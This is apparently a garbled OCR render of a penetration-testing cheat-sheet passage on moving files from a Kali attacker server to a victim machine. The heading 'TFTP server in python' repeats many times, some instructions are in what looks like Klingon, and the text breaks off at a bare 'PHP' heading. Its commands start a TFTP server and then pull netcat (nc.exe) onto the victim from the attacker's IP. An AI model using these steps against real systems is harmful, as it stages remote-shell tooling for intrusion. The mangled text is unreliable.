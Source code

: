 **TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python:**

**TFTP server in python
```bash
pip install ptftpd
ptftpd -p 69 tap0 . # ptftp -p <PORT> <IFACE> <FOLDER>
```
**Qa'vIn** **ghaH** **Kali** **server** **vItlhutlh** **victim** **Daq**:

```bash
ssh kali@<Kali_server_IP>
```

Replace `<Kali_server_IP>` with the actual IP address of the Kali server.
```bash
tftp -i <KALI-IP> get nc.exe
```
## PHP
